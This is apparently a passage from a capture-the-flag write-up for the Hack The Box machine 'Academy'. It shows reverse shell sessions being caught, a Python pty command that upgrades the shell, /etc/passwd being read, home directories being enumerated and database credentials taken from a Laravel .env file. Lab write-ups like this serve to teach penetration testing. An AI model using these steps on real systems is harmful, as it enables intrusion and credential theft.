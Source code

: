 ```
[*] Command shell session 3 opened (10.10.14.115:4444 -> 10.10.10.215:44738) at 2021-02-02 19:57:43 +0100
[*] Command shell session 4 opened (10.10.14.115:4444 -> 10.10.10.215:44740) at 2021-02-02 19:57:44 +0100

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation of Machine : from www-data to cry0l1t3

First let's get a [full TTY](https://book.hacktricks.xyz/shells/shells/full-ttys).

```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

There are plenty users we could target:

```
www-data@academy:/var/www/html/htb-academy-dev-01/public$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
egre55:x:1000:1000:egre55:/home/egre55:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mrb3n:x:1001:1001::/home/mrb3n:/bin/sh
cry0l1t3:x:1002:1002::/home/cry0l1t3:/bin/sh
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
21y4d:x:1003:1003::/home/21y4d:/bin/sh
ch4p:x:1004:1004::/home/ch4p:/bin/sh
g0blin:x:1005:1005::/home/g0blin:/bin/sh
```

Then I ran a recursive list in the home directories: `ls -lhAR /home`.

- 21y4d: empty
- ch4p: empty
- cry0l1t3: the user flag is there, and stuff about lxd (useful for pe)
    - `/home/cry0l1t3/.mysql_history` -> we don't have the permission
- egre55: empty
- g0blin: empty
- mrb3n: dirty stuff
    - `/home/mrb3n/.config/composer/.htaccess` -> deny from all
    - `/home/mrb3n/.local/share/composer/.htaccess` -> deny from all

Connecting to the DB fails with mysql creds found in
`/var/www/html/htb-academy-dev-01/.env` (same as the Laravel):

```
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=homestead
DB_USERNAME=homestead
DB_PASSWORD=secret
```
